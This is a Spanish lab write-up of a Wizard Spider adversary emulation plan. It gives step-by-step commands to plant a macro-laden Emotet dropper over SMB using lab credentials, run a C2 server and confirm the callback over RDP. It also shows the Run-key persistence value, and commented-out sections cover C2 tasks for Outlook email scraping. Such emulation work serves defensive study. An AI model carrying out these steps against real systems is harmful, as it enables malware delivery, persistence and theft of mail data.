 ```yaml
---
title: Plan de Emulación - Escenario 1 de Wizard Spider
---
```


# Preparación del entorno:
- Verificar conectividad a red
- En la maquina atante:
    - Instalar smbclient y verificar 
    
```bash
    sudo apt install smbclient  
    smbclient --version
```

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 18-57-54.png)  
    
# FASE 1: COMPROMISO INICIAL – Emotet Dropper

Objetivo: Infectar a Dorothy con un documento Word malicioso que descarga y ejecuta una DLL simulando Emotet.

Procedimiento:


## 1. Subir el documento malicionso a Dorothy, colocarlo en el escritorio.

```bash
    smbclient -U 'oz\judy' //10.0.0.7/C$ -c "put wizard_spider/Resources/Emotet_Dropper/ChristmasCard.docm Users/judy/Desktop/ChristmasCard.docm;" "Passw0rd!"
```

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 19-45-48.png) 

## 2. Iniciar servidor:

```bash
    cd ~/wizard_spider/Resources/control_server
    sudo ./controlServer
```

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 19-51-11.png)  

## 3. Conectarte por RDP a Dorothy:

```bash
    xfreerdp +clipboard /u:oz\\judy /p:"Passw0rd!" /v:10.0.0.7
```

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 19-23-27.png)  

## 4. Ejecutar ataque:

### 1. Ejecutar el dropper de Emotet 

Simular la acción del usuario al abrir el documento malicioso, lo que desencadenará la ejecución de Emotet.

- Dentro de la ventana de la sesión RDP de Dorothy, ve al escritorio del usuario Judy.
- Buscar el documento llamado ChristmasCard.docm.
- Hacer doble clic en el documento para abrirlo con Microsoft Word.
- Word mostrará una advertencia de seguridad sobre las macros. Habilita las macros cuando se te solicite. Esto es crítico para que el malware se ejecute.
- Después de habilitar las macros, deberías ver una ventana de terminal parpadeando brevemente (puede que apenas la notes) mientras se ejecuta la DLL de Emotet. - Espera unos segundos para que se complete la ejecución.

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 20-14-11.png)  
![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 20-14-47.png)  


### 2. Confirmar la sesión

Verificar que Emotet se ha ejecutado correctamente en Dorothy y ha establecido una conexión con tu servidor de control en Kali.

- Volver a la terminal en tu máquina atacante (Kali Linux) donde se ejecuto 'sudo ./controlServer'.
- Visualizar un nuevo "callback" o sesión entrante en la salida del servidor. Esto indica que Emotet en Dorothy se ha conectado exitosamente. Busca mensajes que confirmen una nueva conexión o sesión.

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-07-05 12-08-20.png)  


![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-07-05 12-18-10.png)  

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-07-07 19-50-51.png)  

--- 

# FASE 2: PERSISTENCIA de Emotet Registry Key

Este paso describe cómo el malware Emotet, una vez ejecutado en el sistema, establece su **persistencia**. La persistencia es una técnica utilizada por los atacantes para asegurar que el malware se reactive automáticamente cada vez que el sistema se reinicia o el usuario inicia sesión, garantizando su presencia continua en el equipo comprometido.

En este escenario, Emotet utiliza el **Registro de Windows** para lograr su persistencia. El Registro de Windows es una base de datos jerárquica que almacena configuraciones esenciales para el sistema operativo y las aplicaciones. La clave específica que Emotet manipula es una ubicación conocida donde los programas pueden registrarse para ejecutarse automáticamente al iniciar sesión el usuario.

Objetivo: Simular persistencia modificando el registro.

<!-- ## 1. Establecer persistencia:

En la terminal de la máquina atacante, ejecutar el siguiente comando:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 1
```

## 2. Confirmar en Dorothy que se creó la clave:
- Ruta: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
- Clave: blbdigital, Valor: rundll32.exe %userprofile%\Ygyhlqt\Bx5jfmo\R43H.dll,Control_RunDLL -->


## 1. Detalles de la Persistencia de Emotet

Emotet establece su persistencia creando una nueva entrada en la siguiente ruta del Registro:

  * **Ruta del Registro:** 
    ```
    HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    ```
Dentro de esta ruta, Emotet añade una **clave** con un **valor** específico que le permite ejecutarse.

  * **Clave Creada:** `blbdigital`

      * Esta es la nueva entrada que Emotet inserta en la ruta del Registro. Sirve como un identificador para la carga útil del malware.

  * **Valor Asignado a la Clave:** `rundll32.exe %userprofile%\Ygyhlqt\Bx5jfmo\R43H.dll,Control_RunDLL`

      <!-- * Este valor es el comando que Windows ejecutará cuando el usuario `judy` inicie sesión. Desglosemos este comando:
          * `rundll32.exe`: Es una utilidad legítima de Windows que se usa para ejecutar funciones dentro de bibliotecas de vínculos dinámicos (DLL). Es comúnmente abusada por el malware para ejecutar sus propios archivos DLL sin levantar sospechas inmediatas, ya que `rundll32.exe` es un proceso legítimo del sistema.
          * `%userprofile%\Ygyhlqt\Bx5jfmo\R43H.dll`: Esta es la **ruta completa al archivo DLL malicioso de Emotet**.
              * `%userprofile%`: Es una variable de entorno de Windows que se expande a la ruta del directorio del perfil del usuario actual (por ejemplo, `C:\Users\judy`).
              * `\Ygyhlqt\Bx5jfmo\R43H.dll`: Indica que el archivo DLL malicioso llamado `R43H.dll` se encuentra anidado dentro de carpetas con nombres aparentemente aleatorios (`Ygyhlqt` y `Bx5jfmo`) dentro del perfil del usuario. Los nombres aleatorios son una táctica de evasión.
          * `,Control_RunDLL`: Especifica una función particular dentro del archivo `R43H.dll` que `rundll32.exe` debe invocar para ejecutar el malware. -->

<!-- **En resumen:** Al crear esta entrada en el Registro, Emotet asegura que cada vez que el usuario `judy` inicie sesión en el sistema `dorothy` (10.0.0.7), el archivo `R43H.dll` (que contiene el código de Emotet) se ejecutará automáticamente, manteniendo así el control sobre el sistema. -->

## 2. Verificación de la Persistencia (Paso Post-Ejecución)

Para verificar la persistencia descrita en el Paso 2, seguir estos pasos:

1.  **Completar el Paso 1:** Emotet debe haber sido ejecutado con éxito en el sistema `dorothy` (10.0.0.7) a través del documento `ChristmasCard.docm`.
2.  **Acceder al sistema Dorothy:** Si estás operando de forma remota, asegúrate de tener una conexión de RDP activa a `dorothy` como el usuario `judy`.
3.  **Abrir el Editor del Registro de Windows:**
      * Presiona `Windows + R` para abrir el cuadro de diálogo "Ejecutar".
      * Escribe `regedit.exe` y presiona `Enter`.
      * Acepta la solicitud de Control de Cuentas de Usuario (UAC) si aparece.
4.  **Navega a la Ruta de Persistencia:**
      * En el panel izquierdo del Editor del Registro, navega hasta la siguiente ruta:
        ```
        HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
        ```
5.  **Buscar la Clave de Emotet:**
      * En el panel derecho, busca una entrada (un valor de registro) con el nombre `blbdigital`.
6.  **Verifica el Valor:**
      * Haz doble clic en `blbdigital` para ver sus datos de valor.
      * Confirma que los "Datos del valor" coincidan exactamente con:
        ```
        rundll32.exe %userprofile%\Ygyhlqt\Bx5jfmo\R43H.dll,Control_RunDLL
        ```

Si encuentras la clave `blbdigital` con el valor especificado, habrás verificado con éxito que Emotet ha establecido su mecanismo de persistencia en el sistema.


<!-- 
--- 

# Fase 3: Descubrimiento de Host de Emotet y Recolección de Credenciales

## 1. Enumerar procesos:

Ejecuta en la terminal del cliente:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 2
```
Esto hará que Emotet enumere los procesos en Dorothy.

## 2. Descargar Outlook Scraper DLL:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 3
```
Emotet descargará la DLL del scraper de Outlook. 

## 3.  Cargar Outlook Scraper DLL:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 4
```
Emotet cargará la DLL en su espacio de memoria

## 4.  Extraer contenido de correo electrónico de Outlook:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 5
```
Emotet utilizará PowerShell para extraer información de correo electrónico.

## 5.  Extraer direcciones de correo electrónico:
```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 8
```
Emotet recolectará direcciones de correo electrónico. 


Se obtendra el acceso al usuario bill@oz.local para la siguiente fase.

```bash

```


```bash

``` -->


---


# posibles titulos:

    “Emulación Controlada de Wizard Spider, APT en un Entorno Simulado”

    “Aplicación de Técnicas de Adversary Emulation para la Comprensión de Wizard Spider en un Laboratorio Virtual”

    “Simulación de un Ataque de Wizard Spider: Un Enfoque Basado en Escenarios Reales”

    “Plan de Emulación de Wizard Spider en un Entorno Controlado#

    “Emulación Táctica de Wizard Spider: De Emotet a Ryuk”

    “Emulación Práctica de APTs: Wizard Spider en un Laboratorio Virtualizado”

    “Diseño y Ejecución de un Escenario de Emulación Basado en Wizard Spider”

    “Estudio Práctico del Comportamiento de Wizard Spider mediante Adversary Emulation con CALDERA y Técnicas MITRE ATT&CK”
